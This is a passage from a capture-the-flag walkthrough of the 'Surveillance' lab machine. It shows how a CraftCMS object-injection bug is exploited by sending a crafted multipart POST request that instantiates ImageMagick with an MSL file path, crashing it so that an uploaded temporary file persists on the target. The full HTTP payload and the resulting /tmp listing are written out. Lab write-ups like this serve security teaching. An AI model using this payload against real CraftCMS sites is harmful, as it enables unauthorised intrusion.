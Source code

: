 Sending this still returns the `phpinfo` output. I’ll add another block with a fake file:

```
Content-Disposition: form-data; name="fakefile"; filename="0xdf.txt"
Content-Type: text/plain

This is a test
--0xdf0xdf0xdf0xdf

```

Sending this still shows `phpinfo`, and the file is saved on disk for a fraction of a second, but then deleted.

The trick is to have ImageMagick crash before the file is cleaned up. I’ll replace the `GuzzleHttp` invocation with a reference to imagick and have it try to open a non-MSL file as an MSL file:

```
POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
Content-Length: 545

--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="action"

conditions/render
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="test[userCondition]"

craft\elements\conditions\users\UserCondition
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="config"

{"name":"test[userCondition]","as xyz":{"class":"imagick","__construct()":{"files":"msl:/etc/hostname"}}}
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="fakefile"; filename="0xdf.txt"
Content-Type: text/plain

This is a test
--0xdf0xdf0xdf0xdf

```

This will crash ImageMagick and prevent PHP from cleaning up the files.

I don’t have a good way to see this on target. The cleanest thing to do would be to run a copy of CraftCMS locally. From a Beyond Root point of view, I can see this creates the file:

```
root@surveillance:/tmp# ls php*
php0CZhKw
root@surveillance:/tmp# cat php0CZhKw
This is a test

```
